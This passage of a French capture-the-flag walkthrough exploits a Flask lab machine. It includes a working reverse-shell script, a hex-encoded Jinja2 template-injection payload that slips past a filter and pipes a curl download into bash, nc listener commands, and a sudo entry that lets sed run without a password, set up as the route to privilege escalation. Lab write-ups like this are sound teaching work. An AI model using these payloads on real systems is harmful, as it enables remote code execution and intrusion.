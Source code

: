 1. Notre script `revshell` qui sera téléchargé et exécuté sur la machine cible :
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/192.168.56.1/4000 0>&1"
```
2. On setup un serveur HTTP, pour pouvoir télécharger le script: 
```bash
$ python3 -m http.server 8000 # In the same directory as your revshell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
3. On ouvre le port 4000, en écoute pour recevoir la connection de notre `revshell`:
```bash
$ nc -lnvp 4000
Listening on 0.0.0.0 4000
```
4. On indique notre payload en valeur de notre param `?command=`, et on envoie la requête:
![Postman2](https://user-images.githubusercontent.com/58345798/210207722-be172d1d-03fd-4ed5-8569-4dca22832036.png)


Bon, on va devoir approfondir nos recherches pour trouver un payload qui contourne ce filtre spécifique. Une solution consiste à modifier notre payload à l'aide du filtre `attr()` de Jinja2, qui accepte le format hexadécimal.
Notre payload final ressemble à ça :
`{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 192.168.56.1:8000/revshell | bash")|attr("read")()}}`

On renvoie la requête... Et hop, on a notre shell ! 
```
flaskit@vuln-err-able:~$ whoami
flaskit
flaskit@vuln-err-able:~$ id
uid=1001(flaskit) gid=1001(flaskit) groups=1001(flaskit),27(sudo),33(www-data)
```
On est connecté en tant que simple user, `flaskit`, et sans avoir à trop explorer on trouve le flag user : 
```
flaskit@vuln-err-able:~$ cat user.txt
f7a03995bcbfb00971314293eeac7202
```

## All the way up to root

Plus qu'à devenir root. L'une des premières choses qui devrait venir à l'esprit lorsqu'on parle de privesc linux c'est de vérifier la conf sudo. 
```
flaskit@vuln-err-able:~$ sudo -l
Matching Defaults entries for flaskit on vuln-err-able:
env_reset, exempt_group=sudo, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
User flaskit may run the following commands on vuln-err-able:
(ALL : ALL) ALL
(ALL) NOPASSWD: /bin/sed
```
